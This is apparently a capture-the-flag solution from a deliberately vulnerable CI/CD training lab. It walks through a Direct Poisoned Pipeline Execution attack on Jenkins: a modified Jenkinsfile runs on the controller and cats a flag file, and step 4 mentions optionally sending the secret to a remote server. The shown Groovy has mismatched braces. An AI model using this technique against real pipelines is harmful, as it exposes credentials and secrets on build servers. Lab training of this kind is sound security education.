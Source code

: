 [![CICD-SEC-4 Poisoned Pipeline Execution (PPE)](https://img.shields.io/badge/CICD--SEC--4-Poisoned%20Pipeline%20Execution%20(PPE)-brightgreen)](https://www.cidersecurity.io/top-10-cicd-security-risks/poisoned-pipeline-execution-ppe/)

[![CICD-SEC-5 Insufficient PBAC (Pipeline-Based Access Controls)](https://img.shields.io/badge/CICD--SEC--5-Insufficient%20PBAC%20(Pipeline%20Based%20Access%20Controls)-brightgreen)](https://www.cidersecurity.io/top-10-cicd-security-risks/insufficient-pbac-pipeline-based-access-controls/)

Execute the _cheshire-cat_ pipeline on the Jenkins Controller by executing a [Direct-PPE](https://www.cidersecurity.io/blog/research/ppe-poisoned-pipeline-execution/?utm_source=github&utm_medium=github_page&utm_campaign=ci%2fcd%20goat_060422) attack, and get the secret which is stored in the Controller’s file system.



1. On Jenkins, access the Built-In Node (which represents the Controller) in the nodes configuration page, and get its label (“builtin”).

    [http://localhost:8080/computer/(built-in)/](http://localhost:8080/computer/(built-in)/)

2. Clone the _Wonderland/cheshire-cat_ repository.
3. Checkout to a new branch.

    ```shell
    git checkout -b challenge5
    ```


4. In the Jenkinsfile, instruct the pipeline to run on the Controller by specifying its label, and print _flag5_ to the console output (or send it to a remote server).

    ```groovy
    pipeline {
        agent {label 'builtin'}
        environment {
            PROJECT = "sanic"
        }

        stages {
            stage ('Install_Requirements') {
                steps {
                    sh 'cat ~/flag5'
                }
            }
        }
    }

        post { 
            always { 
                cleanWs()
            }
        }
    }
    ```


5. Push the changes to the remote branch, and create a pull request. A pipeline will be triggered automatically.
6. Access the console output of the executed job to get the secret.